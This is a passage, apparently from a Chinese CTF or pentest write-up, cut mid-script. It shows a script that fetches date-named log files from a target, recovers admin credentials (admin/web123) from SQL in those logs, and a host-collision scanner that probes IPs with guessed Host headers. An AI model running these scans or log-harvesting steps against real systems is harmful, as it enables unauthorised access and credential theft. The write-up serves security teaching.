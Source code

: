 ```python
				else:
					urls.append(patch+"/%s_%s_%s.log" % (y,i,j))
	return urls
urls = add_urls(url,"20")
for i in urls:
	req=requests.get(i)
	if req.status_code==200:	
		print(i)
		html = req.text
		with open("webhack123.txt",'a',encoding='utf-8') as f:	
			f.write(html)

```

找到日志中最后sql语句中的password字段，并尝试解密

![image-20230310163218586](https://s2.loli.net/2023/03/11/78Dvcfh1ZTkKGNR.png)

解密结果

```
用户名：admin
密码：web123
```



4、使用脚本对子域名进行扫描

![image-20230310121436818](https://s2.loli.net/2023/03/11/KeNzvEjTS1o4UVC.png)

脚本内容如下：

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
#Author:R3start
#这是一个用于IP和域名碰撞匹配访问的小工具

import requests
import re


lists=[]
files = open('hosts_ok.txt','w+')
#读取IP地址
print("====================================开 始 匹 配====================================")
for iplist in open("ip.txt"):
    ip = iplist.strip('\n')
    #读取host地址
    #http_s = ['http://','https://']
    http_s = ['http://']
    for h in http_s :
        for d in open("subdomain.txt",'r'):
            d = d.strip('\n')
            for hostlist in open("host.txt",'r'):
                host = d+"."+hostlist.strip('\n')
                headers = {'Host':host,'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36'}
                try:
                    r = requests.session()
                    requests.packages.urllib3.disable_warnings()
                    rhost = r.get(h+ip,verify=False,headers=headers,timeout=5)
                    rhost.encoding='utf-8'
                    title = re.search('<title>(.*)</title>', rhost.text).group(1) #获取标题
                    info = '%s -- %s 协议：%s 数据包大小：%d 标题：%s' % (ip,host,h,len(rhost.text),title)
                    lists.append(info)
```